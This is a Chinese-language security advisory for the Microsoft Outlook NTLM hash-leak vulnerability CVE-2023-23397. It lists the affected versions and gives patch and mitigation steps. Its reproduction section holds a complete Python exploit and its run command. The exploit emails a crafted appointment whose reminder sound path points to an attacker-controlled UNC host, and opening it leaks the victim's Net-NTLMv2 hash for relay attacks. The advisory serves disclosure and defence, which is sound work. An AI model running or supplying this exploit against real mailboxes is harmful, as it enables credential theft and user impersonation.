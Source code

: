 # 

# Microsoft Outlook 权限提升漏洞 CVE-2023-23397

## 漏洞描述

该漏洞存在于 Microsoft Outlook 中，是一个身份验证绕过漏洞。未经身份验证的远程攻击者仅通过向受影响的系统发送特制电子邮件，从而访问用户的Net-NTLMv2 哈希，进而可以在中继攻击中使用此哈希来冒充用户，从而有效地绕过身份验证。

## 漏洞影响

```
Microsoft Outlook 2016 (64-bit edition)
Microsoft Outlook 2013 Service Pack 1 (32-bit editions)
Microsoft Outlook 2013 RT Service Pack 1
Microsoft Outlook 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2019 for 32-bit editions
Microsoft 365 Apps for Enterprise for 32-bit Systems
Microsoft Office 2019 for 64-bit editions
Microsoft 365 Apps for Enterprise for 64-bit Systems
Microsoft Office LTSC 2021 for 64-bit editions
Microsoft Outlook 2016 (32-bit edition)
Microsoft Office LTSC 2021 for 32-bit editions
```

## 漏洞复现

exp：

```
python CVE-2023-23397.py --path '\\your-ip\'
```

```
import smtplib, datetime, argparse
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.utils import COMMASPACE, formatdate
from independentsoft.msg import Message

## Mail configuration : change it !
smtp_server = "mail.example.com"
smtp_port = 587

sender_email = "attacker@mail.example.com"
sender_password = "P@ssw0rd"

recipients_email = ["victim@mail.example.com"]

class Email:
    def __init__(self, smtp_server, port, username, password, recipient):
        self.smtp_server = smtp_server
        self.port = port
        self.username = username
        self.password = password
        self.recipient = recipient

    def send(self, subject, body, attachment_path):
        msg = MIMEMultipart()
        msg['From'] = self.username
        msg['To'] = COMMASPACE.join(self.recipient)
        msg['Date'] = formatdate(localtime=True)
        msg['Subject'] = subject
        
        msg.attach(MIMEText(body))

        with open(attachment_path, 'rb') as f:
            part = MIMEApplication(f.read(), Name=attachment_path)
            part['Content-Disposition'] = f'attachment; filename="{attachment_path}"'
            msg.attach(part)

        try:
            server = smtplib.SMTP(self.smtp_server, self.port)
            server.starttls()
            server.login(self.username, self.password)
            server.sendmail(self.username, self.recipient, msg.as_string())
            server.quit()
            print("[+] Malicious appointment sent !")


        except Exception as e:
            print("[-] Error with SMTP server...", e)

parser = argparse.ArgumentParser(description='CVE-2023-23397 POC : send a malicious appointment to trigger NetNTLM authentication.')
parser.add_argument('-p', '--path', type=str, help='Local path to process', required=True)
args = parser.parse_args()

appointment = Message()
appointment.message_class = "IPM.Appointment"
appointment.subject = "CVE-2023-23397"
appointment.body = "New meeting now !"
appointment.location = "Paris"
appointment.appointment_start_time = datetime.datetime.now()
appointment.appointment_end_time = datetime.datetime.now()
appointment.reminder_override_default = True
appointment.reminder_sound_file = args.path
appointment.save("appointment.msg")

email = Email(smtp_server, smtp_port, sender_email, sender_password, recipients_email)

subject = "Hello There !"
body = "Important appointment !"
email.send(subject, body, "appointment.msg")
```

## 漏洞修复

目前微软官方已针对受支持的产品版本发布了修复该漏洞的安全补丁，建议受影响用户开启系统自动更新安装补丁进行防护。

注：由于网络问题、计算机环境问题等原因，Windows Update 的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。右键点击Windows 徽标，选择“设置(N)”，选择“更新和安全”-“Windows 更新”，查看该页面上的他提示信息，也可点击“查看更新历史记录”查看历史更新情况。

针对未成功安装更新补丁的情况，可直接下载离线安装包进行更新，链接如下：
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-23397

临时防护措施：

若用户无法正常进行补丁修复，在不影响正常业务的情况下，可使用以下措施对漏洞进行防护：

1. 将用户添加到受保护的用户安全组，以防止使用 NTLM 作为身份验证机制。注意：该操作可能会对需要 NTLM 的应用程序造成一定影响。详情请参考：
   https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group
2. 用户可通过在网络中同时使用外围防火墙和本地防火墙，并通过 VPN 设置来阻止 TCP 445/SMB 从网络出站。注意：该操作将禁止发送 NTLM 身份验证消息到远程文件共享。
